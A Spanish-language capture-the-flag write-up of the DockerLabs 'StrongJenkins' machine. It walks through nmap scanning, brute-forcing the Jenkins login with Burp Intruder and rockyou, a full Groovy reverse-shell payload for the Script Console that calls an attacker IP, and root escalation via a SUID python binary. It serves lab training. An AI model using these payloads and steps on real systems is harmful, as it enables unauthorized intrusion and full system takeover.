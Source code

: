# Máquina StrongJenkins

---------------------

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

-----------------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada al puerto 22 y 80:

```shell
nmap -sCV -p8080 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 10.0.20
|_http-title: Site doesnt have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.20)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos Jetty que es un servidor http, la versión, y vemos un archivo **robots.txt**. Le echamos un vistazo pero no tiene nada interesante.

--------------
## Explotación

Tras aplicar **fuzzing** y no encontrar nada interesante, nos disponemos a aplicar **Fuerza bruta** sobre el panel de login de la web.

![Pasted image 20240418152153](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/7e7f5e03-15a7-4650-bea0-00dd9fe95bae)

Interceptamos una petición de **login** con **burpsuite** y la remitimos al **intruder** con el que realizaremos el ataque. En el apartado de **payloads** cargamos el famoso **rockyou**. Indicaremos la posición del **payload** en la **request** que tramitamos, en este caso, en el valor que se le asigna a "**j_password**", que corresponde al campo de la contraseña.

Y para diferenciar si el login ha sido exitoso o no, he escogido un valor que se devuelve en la propia **url** cuando el login ha sido erróneo. He supuesto que cuando el login sea exitoso, este cambiará o directamente no aparecerá. Añadiremos este campo, como output en las respuestas del **intruder** creando una nueva **regex** en el apartado "**Grep -Extract**" del intruder, y seleccionando el "**loginError**"

![Pasted image 20240417200914](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/ea017b5a-761b-4292-9d1a-1cb372427833)

En la siguiente captura podemos observar que una de las líneas, no devuelve el campo "**loginError**". 

![Pasted image 20240417200843](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/b1aaf8ed-55df-49a6-8d8b-b8ac0c2d8905)

Probamos la contraseña, y efectivamente "**rockyou**" es la contraseña correspondiente al usuario **admin** ya que logramos acceder con estas credenciales al panel de administrador.

En el apartado "**Manage Jenkins**", podemos irnos al apartado de "**Script Console**":

![Pasted image 20240418152555](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/4267497d-9c32-4c7b-bbf9-71066ca1b10d)

Donde introduciremos el siguiente **payload** que nos enviará una **reverse shell** a nuestra máquina atacante con **IP** 192.168.1.40 por el **puerto** 443 (para la cual, habrá que ponerse en escucha anteriormente por ejemplo con **netcat** -> "**sudo nc -nlvp 443**"):

```js
String host="192.168.1.40";
int port=443;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Le damos a **Run** y estamos dentro de la máquina !


---------------
### Tratamiento de la tty

-------------

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

------------
## Escalada de privilegios

Filtramos por binarios con permisos **SUID** para ver si podemos ejecutar algo como **root**.

```shell
find / -perm -4000 2>/dev/null
---------------------------------
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/python3.10
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Vemos **/usr/bin/python3.10**, este es crítico y podemos abusar de él.
Si no sabemos como, siempre podemos consultar [GTFOBins](https://gtfobins.github.io/)

Ejecutamos el siguiente comando como **root**:

```shell
/usr/bin/python3.10 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```shell
whoami
---------------
root
```

Hemos alcanzado el nivel de privilegios máximo en la máquina !

